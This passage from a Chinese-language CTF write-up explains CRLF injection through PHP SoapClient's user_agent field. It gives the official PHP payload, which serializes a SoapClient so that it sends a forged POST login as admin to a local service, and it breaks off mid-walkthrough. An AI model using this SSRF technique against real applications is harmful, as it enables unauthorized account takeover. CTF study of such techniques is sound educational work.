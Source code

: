 &emsp;&emsp;我们知道http请求报文中使用`\x0d\x0a`，也就是`回车换行符`，分割http请求头跟body部分，所以我们通过`\x0d\x0a`来控制soap请求，使他变成我们想要的http报文格式，这种攻击手段也称为`CRLF`。如：
<div align="center">
    <img src="/images/posts/n1ctf/48.png" width="50%" />  
</div>

&emsp;&emsp;这里我使用了官方放出的payload：
```php
<?php
$target = 'http://127.0.0.1/index.php?action=login';
$post_string = 'username=admin&password=nu1ladmin&code=cf44f3147ab331af7d66943d888c86f9';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo bin2hex($aaa);
?>
```
&emsp;&emsp;我们只需将`PHPSESSID`跟`code`换成我们自己的就可以实现`admin`登陆。我们在另一个浏览器中打开页面，然后记录他的`PHPSESSID`跟`code`。如：
<div align="center">
